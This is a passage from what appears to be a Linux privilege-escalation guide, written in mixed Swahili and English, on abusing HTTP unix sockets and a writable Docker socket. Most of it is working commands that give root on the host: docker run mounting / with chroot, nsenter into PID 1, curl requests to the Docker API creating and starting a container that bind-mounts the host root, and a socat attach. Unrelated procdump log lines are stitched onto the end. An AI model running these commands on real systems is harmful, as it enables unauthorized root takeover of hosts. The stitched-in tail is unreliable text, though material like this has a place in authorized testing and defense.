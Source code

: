### HTTP sockets

Kumbuka kwamba kunaweza kuwa na **sockets listening for HTTP** requests (_Sina maana ya kuzungumzia .socket files bali faili zinazotumika kama unix sockets_). Unaweza kuangalia kwa:
```bash
curl --max-time 2 --unix-socket /pat/to/socket/files http:/index
```
Kama socket **inapojibu kwa ombi la HTTP**, basi unaweza **kuwasiliana** nayo na labda **exploit some vulnerability**.

### Socket ya Docker inayoweza kuandikwa

The Docker socket, often found at `/var/run/docker.sock`, is a critical file that should be secured. By default, it's writable by the `root` user and members of the `docker` group. Possessing write access to this socket can lead to privilege escalation. Here's a breakdown of how this can be done and alternative methods if the Docker CLI isn't available.

#### **Privilege Escalation with Docker CLI**

If you have write access to the Docker socket, you can escalate privileges using the following commands:
```bash
docker -H unix:///var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash
docker -H unix:///var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```
Amri hizi zinakuwezesha kuendesha container ikiwa na root-level access kwenye filesystem ya host.

#### **Kutumia Docker API Moja kwa Moja**

Ikiwa Docker CLI haipatikani, Docker socket bado inaweza kutumiwa kwa kutumia Docker API na amri za `curl`.

1.  **List Docker Images:** Pata orodha ya images zinazopatikana.

```bash
curl -XGET --unix-socket /var/run/docker.sock http://localhost/images/json
```

2.  **Create a Container:** Tuma ombi la kuunda container linalofunga directory ya root ya host.

```bash
curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d '{"Image":"<ImageID>","Cmd":["/bin/sh"],"DetachKeys":"Ctrl-p,Ctrl-q","OpenStdin":true,"Mounts":[{"Type":"bind","Source":"/","Target":"/host_root"}]}' http://localhost/containers/create
```

Anzisha container mpya iliyoundwa:

```bash
curl -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/<NewContainerID>/start
```

3.  **Attach to the Container:** Unganisha kwenye container: Tumia `socat` kuanzisha muunganisho kwa container, kuruhusu utekelezaji wa amri ndani yake.

```bash
socat - UNIX-CONNECT:/var/run/docker.sock
POST /containers/<NewContainerID>/attach?stream=1&stdin=1&stdout=1&stderr=1 HTTP/1.1
Host:
Connection: Upgrade
Upgrade: tcp
```


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714